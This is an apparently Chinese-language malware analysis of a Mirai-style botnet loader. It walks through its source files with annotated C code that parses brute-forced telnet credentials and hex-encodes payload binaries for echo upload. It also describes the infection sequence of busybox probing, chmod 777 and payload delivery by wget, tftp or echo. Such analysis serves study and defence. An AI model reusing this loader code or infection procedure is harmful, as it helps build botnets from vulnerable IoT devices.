

loader模块分析
目录分布如下：向被感染的设备上传对应架构的payload文件。
binary.c 将bins目录下的文件读取到内存中，以echo方式上传
connection.c loader和感染设备telnet交互
main.c 主函数
server.c 向感染设备上传payload文件
telnet_info.c 自定义解析telnet信息
util.c 一些常用的公共函数
main.c
主要负责功能调度和初始化telnet登录信息以及环境信息建立socket链接。在启动之初就会判断这个文件夹是否存在（binary.c），然后启用了一个epoll架构的简单服务器(epoll.c)，一旦有新的连接就启动一个新的worker线程。
ip转整数
将ip地址的格式转换成网络字节序。这也是botnet中常见的操作。
读取程序的参数作为目标，读取参数也是botnet中的常用手法，从后面的几个家族的分析中来看使用的非常频繁，也可以防止自己被沙箱自动运行。
接下来就开始将现成和cpu核心进行绑定，提高运行的效率，这也是可以通过cpu的异常活跃来判断是否成为僵尸网络。
完事初始化一下telnet的设置，方便后续爆破链接。
telnet_info.c
主要有两个函数，负责解析telnet登录返回的账号、密码信息。
// 解析格式给telnet结构体赋值
// struct telnet_info {
// char user[32], pass[32], arch[6], writedir[32];
// ipv4_t addr;
// port_t port;
// enum {
// UPLOAD_ECHO,
// UPLOAD_WGET,
// UPLOAD_TFTP
// } upload_method;
// BOOL has_auth, has_arch;
// };
// telnet_info的一个构造函数
struct telnet_info *telnet_info_new(char *user, char *pass, char *arch, ipv4_t addr, port_t port, struct telnet_info *info)
{
if (user != NULL)
strcpy(info->user, user);
if (pass != NULL)
strcpy(info->pass, pass);
if (arch != NULL)
strcpy(info->arch, arch);
info->addr = addr;
info->port = port;
info->has_auth = user != NULL || pass != NULL;
info->has_arch = arch != NULL;
return info;
}
// 拆分用户信息，并且给info结构体赋值
struct telnet_info *telnet_info_parse(char *str, struct telnet_info *out) // Format: ip:port user:pass arch
{
char *conn, *auth, *arch;
char *addr_str, *port_str, *user = NULL, *pass = NULL;
/**
typedef uint32_t ipv4_t;
typedef uint16_t port_t;
*/
ipv4_t addr;
port_t port;
// 用空格分开，得到第一个参数
if ((conn = strtok(str, " ")) == NULL)
return NULL;
// 得到第二个参数
if ((auth = strtok(NULL, " ")) == NULL)
return NULL;
//得到第三个参数，但是不重要
arch = strtok(NULL, " "); // We don't care if we don't know the arch
// 得到第一个参数的ip和端口
if ((addr_str = strtok(conn, ":")) == NULL)
return NULL;
if ((port_str = strtok(NULL, ":")) == NULL)
return NULL;
// 判断用户名和密码是不是空的以及是不是符合要求
if (strlen(auth) == 1)
{
if (auth[0] == ':')
{
user = "";
pass = "";
}
else if (auth[0] != '?')
return NULL;
}
else
{
// 分解得到用户名和密码
user = strtok(auth, ":");
pass = strtok(NULL, ":");
}
addr = inet_addr(addr_str);
port = htons(atoi(port_str));
return telnet_info_new(user, pass, arch, addr, port, out);
}
binary.c
将bin目录下的二进制程序读取到内存中来，利用用到了linux下的一个编程技巧
// glob库函数用于Linux文件系统中路径名称的模式匹配，即查找文件系统中指定模式的路径。
#include "headers/glob.h"
load函数
// #define BINARY_BYTES_PER_ECHOLINE 128
// 将指定文件（对应架构的文件），每次128字节，读取到内存中来
// bin结构体 文件名称
static BOOL load(struct binary *bin, char *fname)
{
FILE *file;
char rdbuf[BINARY_BYTES_PER_ECHOLINE];
int n;
// 打开指定的文件，打不开返回失败
if ((file = fopen(fname, "r")) == NULL)
{
printf("Failed to open %s for parsing\n", fname);
return FALSE;
}
// 从file文件种读取128字节，按照char类型，放到rdbuf缓冲区中。n是读取到的字节数
while ((n = fread(rdbuf, sizeof (char), BINARY_BYTES_PER_ECHOLINE, file)) != 0)
{
char *ptr;
int i;
// realloc（调整之前的内容空间） 扩充payload内存空间。
bin->hex_payloads = realloc(bin->hex_payloads, (bin->hex_payloads_len + 1) * sizeof (char *));
// calloc申请一个新的字符串内存,每个字节的16进制表示需要4个字符（00 -> \x00）,再加上结尾空字节
bin->hex_payloads[bin->hex_payloads_len] = calloc(sizeof (char), (4 * n) + 8);
// 将新字符串内存首地址保存到ptr指针
ptr = bin->hex_payloads[bin->hex_payloads_len++];
for (i = 0; i < n; i++)
ptr += sprintf(ptr, "\\x%02x", (uint8_t)rdbuf[i]);
// \\x表示16进制,\\02x表示2位宽度,0填充
}
return FALSE;
}
上述函数负责将文件写道内存里，同时需要下面的函数来确定平台的架构，来选择合适的文件。
binary_init函数
// struct binary {
// char arch[6];
// int hex_payloads_len;
// char **hex_payloads;
// };
BOOL binary_init(void)
{
glob_t pglob;
int i;
// 匹配bins目录下的所有的dlr开头的文件
if (glob("bins/dlr.*", GLOB_ERR, NULL, &pglob) != 0)
{
printf("Failed to load from bins folder!\n");
return;
}
// 遍历上述得到的文件
for (i = 0; i < pglob.gl_pathc; i++)
{
char file_name[256];
/*
struct binary {
char arch[6];
int hex_payloads_len;
char **hex_payloads;
};
*/
struct binary *bin;
bin_list = realloc(bin_list, (bin_list_len + 1) * sizeof (struct binary *));
bin_list[bin_list_len] = calloc(1, sizeof (struct binary));
bin = bin_list[bin_list_len++];
#ifdef DEBUG
printf("(%d/%d) %s is loading...\n", i + 1, pglob.gl_pathc, pglob.gl_pathv[i]);
#endif
// 保存文件的路径和文件的架构
strcpy(file_name, pglob.gl_pathv[i]);
strtok(file_name, ".");
// 得到文件的拓展名（架构名称）
strcpy(bin->arch, strtok(NULL, "."));
load(bin, pglob.gl_pathv[i]);
}
globfree(&pglob);
return TRUE;
}
// 返回特定架构的文件结构体，失败返回NULL
struct binary *binary_get_by_arch(char *arch)
{
int i;
for (i = 0; i < bin_list_len; i++)
{
if (strcmp(arch, bin_list[i]->arch) == 0)
return bin_list[i];
}
return NULL;
}
检查平台的架构，从bin目录中选择名称合适的架构文件，并移交给load函数。
server.c
这个目的在于构建一个高性能的网络服务器，向受感染的设备下发控制命令，组件僵尸网络。这个是运行在攻击者的自己的服务器上的，向感染设备发起telnet交互，上传payload文件。
handle_event函数
这个函数是核心函数，里面的while+switch决定了程序的主要通联行为。通过调试信息可以很方便的得知每一个case的功能。
woker线程使用scanner提供的IP地址和账户密码信息登录IOT设备
执行/bin/busybox ps和/bin/busybox cat /proc/mounts查看挂载分区。
创建文件、使用chmod命令调整文件权限至777，之后使用cpuinfo命令判断设备运行平台，再使用wget、tftp或echo三种方式将对应版本的恶意可执行文件上传到设备。
busybox
这也是botnet里常用的一种执行shell命令的方式。它提供了大约 400 个常见 UNIX/Linux 命令的精简实现。 BusyBox 实现删除了不常见的、很少使用的命令选项。所以一般的iot设备都是用了这个来代替bash。
connection.c
判断loader和感染设备telnet交互过程中的状态信息。

文件里的函数功能就是判断telnet交互过程中的各种状态来判断连接是不是正常或者有其他情况等等。
util.c
这个文件一般都不去看，确实也没有什么攻击实际意义，但是这些代码在botnet中的重用率很高，所以还是看了一下。
其中的一些算法也可以学习一下。比如是
util_sockprintf
// 将可变参数通过socket(fd)进行发送
BOOL util_sockprintf(int fd, const char *fmt, ...)
{
// 格式化输出的缓冲区
char buffer[BUFFER_SIZE + 2];
va_list args;
int len;
// 初始化可变参数的获取
va_start(args, fmt);
// 格式化写入buffer
len = vsnprintf(buffer, BUFFER_SIZE, fmt, args);
// 结束可变参数获取
va_end(args);
if (len > 0)
{
// 输出按照大小截断
if (len > BUFFER_SIZE)
len = BUFFER_SIZE;
#ifdef DEBUG
hexDump("TELOUT", buffer, len);
#endif
// 通过socket发送
if (send(fd, buffer, len, MSG_NOSIGNAL) != len)
return FALSE;
}
return TRUE;
}
util_memsearch
// 在buf中寻找mem子字符串，并返回匹配到的最后一个字符在源字符串中的索引
int util_memsearch(char *buf, int buf_len, char *mem, int mem_len)
{
int i, matched = 0;
// 目标字符串比原字符串长，直接返回推出
if (mem_len > buf_len)
return -1;
// 遍历buf寻找mem
for (i = 0; i < buf_len; i++)
{
if (buf[i] == mem[matched])
{
// 如果matched等于mem的长度，说明他找完了
if (++matched == mem_len)
return i + 1; // 返回的是匹配到的最后一个字符在源字符串中的位置
}
else
matched = 0;
}
return -1;
}